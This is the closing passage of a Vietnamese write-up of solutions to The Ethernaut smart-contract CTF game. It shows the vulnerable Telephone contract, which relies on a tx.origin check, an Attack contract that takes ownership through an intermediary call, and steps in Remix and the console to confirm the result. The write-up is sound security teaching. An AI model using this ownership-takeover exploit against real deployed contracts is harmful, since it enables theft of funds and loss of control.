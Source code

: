 ```js
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Attack {
  Telephone phone;
  // replace target by your instance address
  address target = 0x7828d70649688ad7fb4fa2b34430e92096b6fb47;

  function Attack() {
      phone = Telephone(target);
  }

  function claimOwnership() public {
      phone.changeOwner(msg.sender);
  }
}
```

- Compile contract này và chạy hàm `claimOwnership` trên Remix, quyền owner sẽ thuộc về bạn.
- Trên chrome console, kiểm tra lại contract owner

```js
await contract.owner()
```

- Submit & all done!

## Conclusion

Trên đây là solution 5 bài đầu tiên trong tổng số tất cả 12 bài trong **The Ethernaut** CTF game. Nội dung không quá phức tạp, song trên thực tế, đó lại chính là những lỗi security lớn nhất của các smart contract trên **Blockchain** hiện nay.

Liên quan trực tiếp đến túi tiền của chúng ta, nên mọi thứ đều cần phải thực sự cẩn thận & không một lỗi lầm.

Hẹn gặp lại các bạn trong phần tới. Coming soon!

## References
- [The Ethernaut](https://ethernaut.zeppelin.solutions/)
- [Remix](https://remix.ethereum.org/)
- [Solidity Docs](http://solidity.readthedocs.io/en/develop/types.html#members-of-addresses
)
